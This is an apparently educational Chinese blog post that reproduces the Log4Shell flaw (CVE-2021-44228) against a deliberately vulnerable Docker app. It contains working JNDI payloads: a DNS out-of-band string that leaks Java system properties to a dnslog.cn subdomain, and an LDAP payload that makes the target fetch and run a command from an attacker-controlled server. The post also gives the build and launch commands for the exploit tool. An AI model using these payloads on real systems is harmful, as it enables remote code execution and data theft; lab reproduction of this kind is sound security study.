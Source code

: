 ```yaml
---
title: log4j2漏洞学习
categories: 
- 漏洞分析
layout: post
---
```

## Log4Shell漏洞分析和复现

# 一、漏洞回顾

Log4Shell 漏洞最早是阿里巴巴安全研究员 Chen Zhaojun 早在 2021 年 12 月 10 日发布（早在 11 月 24 日已发现上报），漏洞编号[CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228)。影响 log4j2 2.0-beta9 到 2.15.0 多个版本，攻击者利用 log4j2 写日志时注入 jndi lookup 链接并执行远程命令。鉴于 log4j2 在 Java 生态圈的广泛使用，该漏洞一发现就妥妥到零日漏洞，CVSS（Common Vulnerability Scoring System）评级系统中最严重的 10.

不少同行一定对当初加班紧急修复该漏洞记忆犹新。修复过程中也一波三折，衍生了 CVE-2021-45046，CVE-2021-45105，CVE-2021-44832 等漏洞，最终在 log4j2 2.17.1 版本修复。

# 二、漏洞复现

本文主要基于最初的漏洞在 log4j2 2.14.1 版本进行复现。主要内容包括：

1. 通过 docker 容器复现漏洞应用
2. 通过 jndi dnslog 模拟带外攻击执行系统属性查询
3. 通过 jndi lookup 远程命令执行

## 2.1 复现漏洞应用

复现漏洞依赖 JDK 版本和 log4j2 版本，一般通过容器镜像来比较方便。从网上找了一个应用 fork 出来[漏洞应用](https://github.com/shidongwa/CVE-2021-44228-VULN-APP)。

- JDK：8u102
- log4j2: 2.14.1

运行应用有两种方式:

**_方式 1_**

```
cd CVE-2021-44228-VULN-APP/
docker build -t log4j-shell-poc .
docker run -p 8082:8080 log4j-shell-poc
```

**_方式 2_**（需要本地安装 Docker Desktop）

```
docker pull nu11secur1ty/log4j-vuln-application
docker run  -p 8082:8080 nu11secur1ty/log4j-vuln-application
```

外部通过`http://localhost:8082/`来访问。显示如下：
![](https://github.com/shidongwa/seesea2024.github.io/blob/master/images/2023/091701.png?raw=true)

## 2.2 dnslog 攻击

利用 dnslog 可以进行一种 OOB(Out Of Band)攻击。这里所谓的**带外**指的是不同与原本的业务请求响应数据路径，比如这里的 DNS 请求路径。

OOB 攻击依赖 DNS 泛域名解析。简单来说泛域名解析指的是\*.t831at.dnslog.cn 都会解析到域名 t831at.dnslog.cn 上。通过查看 t831at.dnslog.cn 的域名解析日志就可以看到 dns 查询命令执行的结果。

具体步骤如下：

1. 登陆http://www.dnslog.cn/
2. 点击“Get SubDomain"比如得到域名“t831at.dnslog.cn”
3. 在 2.1 部分部署的漏洞应用页面输入
   - Username: ${jndi:dns://${sys:java.version}.t831at.dnslog.cn}
   - Password: password
4. 在http://www.dnslog.cn/页面点击“Refresh Record"。可以看到 1.8.0_102.t831at.dnslog.cn 中最前面的`1.8.0_102`就是漏洞应用的 JDK 版本。
   ![](https://github.com/shidongwa/seesea2024.github.io/blob/master/images/2023/091702.png?raw=true)

`sys:java.version`中*java.version*可以替换为操作系统名和版本，用户名和目录等系统环境信息。具体可以参考[系统属性](https://docs.oracle.com/javase/tutorial/deployment/doingMoreWithRIA/properties.html)

![](https://github.com/shidongwa/seesea2024.github.io/blob/master/images/2023/091703.png?raw=true)

![](https://github.com/shidongwa/seesea2024.github.io/blob/master/images/2023/091704.png?raw=true)

## jndi 命令执行

这里需要用到一个工具应用[JNDI-Injection-Exploit](https://github.com/shidongwa/JNDI-Injection-Exploit)，这个应用会生成 jndi 远程服务，提供命令给漏洞应用来下载并在漏洞应用中执行。

比如我们需要在漏洞应用中写入一个文件/tmp/success.txt。操作步骤如下：

1. 从 github 下载代码并构建启动服务

```
git clone git@github.com:shidongwa/JNDI-Injection-Exploit.git
cd JNDI-Injection-Exploit.git
mvn clean package
cd target
# 假设192.168.10.104是攻击者服务器ip
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success.txt" -A "192.168.10.104"
```

2. 我们是 java 8，从上面服务的启动日志中获取 jndi 服务地址`ldap://192.168.10.104:1389/5jqrji`。攻击 payload 是`${jndi:ldap://192.168.10.104:1389/5jqrji}`

![](https://files.mdnice.com/user/48760/7716b228-7c70-4663-b7f9-c37560a46381.png)

3. 在 2.1 部分部署的漏洞应用页面输入
   - Username: \${jndi:ldap://192.168.10.104:1389/5jqrji}
   - Password: password
4. 在漏洞主机中验证/tmp/success.txt 确实已写入

```
docker container ls
docker exec -it 95fc bash
ls -al /tmp/success.txt
```

![](https://files.mdnice.com/user/48760/c3b43b55-c4d6-4432-b297-59c2afda8e53.png)

![](https://files.mdnice.com/user/48760/c8de128f-5999-4730-ac3d-f8e4b35b89dc.png)

# 三、总结

通过对 log4j2 漏洞进行了回顾和复现，学习了 log4j2 jndi lookup 功能调用 ldap、dns 执行远程命令。对反弹 shell 和 rmi 等本文未涉及。